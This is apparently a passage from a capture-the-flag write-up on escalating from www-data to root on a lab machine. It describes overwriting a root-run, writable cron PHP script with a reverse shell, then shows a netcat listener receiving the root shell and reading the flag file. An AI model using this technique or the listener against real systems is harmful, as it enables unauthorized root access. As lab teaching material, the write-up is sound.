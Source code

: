 ## Privilege Escalation www-data to root

Php-script /var/www/laravel/artisan is executed periodically as a root. We also have write permissions to it. Replace the script by php reverse shell, wait for the next execution, and our listener gets a shell

```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.172.234] 53014
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 20:50:01 up  4:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# ls -al /root/root.txt
-r-------- 1 root root 33 Mar 22  2017 /root/root.txt
#
```



